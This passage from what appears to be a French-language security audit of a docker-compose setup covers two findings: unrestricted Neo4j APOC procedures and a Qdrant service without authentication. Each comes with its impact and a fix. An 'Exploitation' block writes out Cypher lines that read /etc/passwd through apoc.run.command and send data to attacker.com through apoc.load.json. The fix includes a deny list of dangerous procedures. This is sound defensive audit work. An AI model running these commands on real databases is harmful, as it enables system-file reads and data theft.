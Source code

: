 ### 7. Neo4j APOC Procedures Unrestricted 🟠

**Fichier** : `docker-compose.infra.yml:80-81`

**Problème** :
```yaml
- NEO4J_dbms_security_procedures_unrestricted=apoc.*
- NEO4J_dbms_security_procedures_allowlist=apoc.*
```

**Impact** :
- ✅ APOC permet exécution OS commands (`apoc.run.command`)
- ✅ Lecture fichiers système (`apoc.load.csv`, `apoc.export`)
- ✅ Connexions réseau arbitraires (`apoc.load.json` URL externe)
- ✅ Élévation privilèges potentielle

**Exploitation** :
```cypher
// Exécution commande OS
CALL apoc.run.command('cat /etc/passwd');

// Exfiltration données
CALL apoc.load.json('https://attacker.com?data=' + facts);
```

**CVSS Score** : 7.2 (Élevé)

**Correctif** :
```yaml
# docker-compose.infra.yml
environment:
  # Whitelist strict procédures nécessaires uniquement
  - NEO4J_dbms_security_procedures_allowlist=apoc.path.*,apoc.create.*,apoc.periodic.*
  - NEO4J_dbms_security_procedures_unrestricted=  # Vide par défaut

  # Blacklist procédures dangereuses
  - NEO4J_dbms_security_procedures_blacklist=apoc.run.*,apoc.load.jdbc,apoc.export.*
```

**Principe du moindre privilège** : N'autoriser QUE les procédures APOC strictement nécessaires.

---

### 8. Qdrant Sans Authentification 🟠

**Fichier** : `docker-compose.infra.yml:11-32`

**Problème** :
```yaml
qdrant:
  ports:
    - "6333:6333"
  # ❌ Pas de QDRANT__SERVICE__API_KEY
```

**Impact** :
- ✅ Lecture/écriture collections Qdrant sans auth
- ✅ Exfiltration embeddings (propriété intellectuelle)
- ✅ Injection vectors malveillants (pollution dataset)
- ✅ Suppression collections
